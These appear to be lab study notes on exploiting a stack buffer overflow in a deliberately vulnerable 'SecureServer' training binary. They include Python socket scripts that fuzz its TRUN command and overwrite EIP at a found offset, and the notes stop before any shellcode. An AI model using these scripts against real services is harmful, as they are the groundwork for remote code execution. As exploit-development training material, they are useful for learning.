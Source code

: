 # Static Analysis
***LINUX***

	strings
	file file.ext

 # Dynamic 
***WINDOWS***

 run it (Double Click)

  see it's awaiting a connection

  check where it's listening from using netstat -antot

  check pid with tasklist

# Script 
```

#!/usr/bin/env python

import socket

buf = " "

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)   ## CREATING SOCKET, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## DEFINE HOST AND PORT
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.send(buf) ## SEND VARIABLE BUF
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.close ## CLOSE THE SOCKET
```

***When Ran***
```
python wbuffo.py
 
Welcome to SecureServer! Enter HELP for help.

UNKNOWN COMMAND
```

***Modify Script to run HELP instead of previously used " "***

***OUTPUT***  
```
python wbuffo.py
Welcome to SecureServer! Enter HELP for help.

Valid Commands:
HELP
TRUN [value]
EXIT
```
***Modify Script to run "TRUN /.:/" instead of previously used "HELP"***

***FUZZ ALL COMMANDS, TRUN "/.:/" WORKS MODIFY SCRIPT AGAIN***
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)   ## CREATING SOCKET, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## DEFINE HOST AND PORT
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.send(buf) ## SEND VARIABLE BUF
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.close ## CLOSE THE SOCKET

```

***WINDOWS***

Rick click, Run as admin, Immunity Debugger

(If you get lost or screen changes, click "Window" tab and click "CPU" and it will retrun you to correct screen"

Click file in top right corner, click attach and select malware, malware must be running IOT attach

***LINUX***

RUN SCRIPT

Go to wiremask to Generate 5000 characters

Insert into script on buf +=

***WINDOWS***

Rewind ImDb and press play, run script in LInux

Grab EIP

Put into "Register Value" Box under "FIND THE OFFSET" on Wiremask

Get OFFSET value and modify script

```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 2003
buf += "BBBB"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)   ## CREATING SO$
s.connect(("192.168.65.10",9999)) ## DEFINE HOST AND PORT
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.send(buf) ## SEND VARIABLE BUF
print s.recv(1024) ## PRINT TO SCREEN THE RESPONSE
s.close ## CLOSE THE SOCKET

```

***Windows***

Rewind Script

Press Play

***Linux***

Run Script

Check EIP is 42424242 (From buf += "BBBB"

You can now delete **buf += "BBBB"** as this was just to verify we were targeting EIP


